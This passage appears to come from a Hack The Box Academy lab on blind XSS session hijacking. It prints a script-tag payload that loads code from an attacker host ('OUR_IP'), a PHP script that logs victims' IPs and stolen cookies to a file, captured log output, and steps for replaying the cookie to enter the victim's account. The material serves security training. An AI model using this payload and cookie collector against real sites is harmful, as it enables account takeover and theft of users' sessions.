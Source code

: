 

```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

We can save the following PHP script as `index.php`, and re-run the PHP server again:


```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:


```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

As mentioned earlier, we get the cookie value right in the terminal, as we can see. However, since we prepared a PHP script, we also get the `cookies.txt` file with a clean log of cookies:



```shell-session
smoothment@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Finally, we can use this cookie on the `login.php` page to access the victim's account. To do so, once we navigate to `/hijacking/login.php`, we can click `Shift+F9` in Firefox to reveal the `Storage` bar in the Developer Tools. Then, we can click on the `+` button on the top right corner and add our cookie, where the `Name` is the part before = and the `Value` is the part after = from our stolen cookie:
   

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_set_cookie_2.jpg)

Once we set our cookie, we can refresh the page and we will get access as the victim:
